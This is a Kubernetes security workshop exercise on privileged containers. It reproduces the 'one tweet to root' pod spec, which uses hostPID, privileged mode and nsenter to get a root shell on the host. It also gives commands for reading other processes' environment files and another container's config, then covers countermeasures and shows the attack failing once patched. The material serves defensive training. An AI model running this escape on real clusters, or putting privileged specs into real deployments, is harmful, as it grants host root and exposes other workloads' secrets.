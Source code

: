 +++
categories = []
date = "2020-02-22"
description = ""
slug = ""
tags = []
title = "Avoid privileged mode"
draft = false
toc = true
weight = 65
+++

### Introduction
In this exercise, we cover:

 - What `--privileged` mode does
 - The crazy things it allows
 - How you might be able to replace it

### Setup
We'll exec directly into a container in this example.

This example is based on Ian Coldwater and Duffie Cooley's example from [Black Hat USA 2019](https://github.com/mauilion/blackhat-2019).

As a preliminary step, we'll deploy nginx and then spy on it later.
_(Note: adjust the replica count to match the number of nodes in your cluster.)_

```
kubectl create deployment nginx --image=nginx:stable
kubectl scale deployment nginx --replicas 2
kubectl get pods -w
```

To start, we'll use [Duffie Cooley's "one tweet to root"](https://twitter.com/mauilion/status/1129468485480751104)—it takes less than 280 characters!

{{< tweet 1129468485480751104 >}}

Here's that same spec, pretty-printed:
```json
{
  "spec": {
    "hostPID": true,
    "containers": [
      {
        "name": "1",
        "image": "alpine",
        "command": [
          "nsenter",
          "--mount=/proc/1/ns/mnt",
          "--",
          "/bin/bash"
        ],
        "stdin": true,
        "tty": true,
        "securityContext": {
          "privileged": true
        }
      }
    ]
  }
}
```

You'll notice:

 - `"hostPID": true` — The container is entering the host's process (PID) namespace
 - `"privileged": true` — The container is running in `--privileged` mode
 - `"stdin": true, "tty": true` — We'll attach a terminal to the running container when it starts
 - `"command"` — It's going to start out using `nsenter` to go into the **host**'s PID 1 (first process)

### "Attack"
Once we are in this shell, we can do some fun stuff to explore the host and learn about other processes and containers.

```
ls /proc/*/environ

pgrep -a nginx
(nsenter -n -t $(pgrep nginx | head -n1) ss -ln)
(nsenter -m -t $(pgrep nginx | head -n1) cat /etc/nginx/nginx.conf)

(nsenter -m -t 1 cat /etc/resolv.conf)
```

Can you think of anything else you'd want to do to the host while we're here?

### Countermeasure
Avoid `--privileged` mode and `hostPID` unless super necessary.

Consider applying admission control (using a dynamic admission controller or a `PodSecurityPolicy`) to block privileged containers by default.

### Attack effects after patching

Let's start just changing `hostPID: false`.

```
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{ "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"securityContext":{"privileged":true}}]}}'
```

We can also try with `privileged: false`:
```
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true}]}}'
```

Note that neither succeeds because we either lack `/bin/bash` (a side-effect of staying in our Alpine container's `pid 1` instead of the host's) or we can't actually mount the process's mount (a side-effect of not being `--privileged`).

### How to use it yourself
Use the capabilities setting in the `securityContext` rather than privileged mode, if you can.
There are limited circumstances where you can and can't do this, which are hard to enumerate.

To know what caps you need, consider [`capable`](http://www.brendangregg.com/blog/2016-10-01/linux-bcc-security-capabilities.html) or a similar tool.

Remember that all of these changes should go through CI and testing, like any code change.
You need to be sure all of your important flows are exercised if you want to have confidence in this change.

### "Advertisement"
Watch Maya and Frenchie's BSidesSF talk about privileged containers:

{{< youtube 5VgSFRyI38w >}}

### Next up
We'll cover resource limits in the next exercise:

[**Set resource limits**](../80-limits)
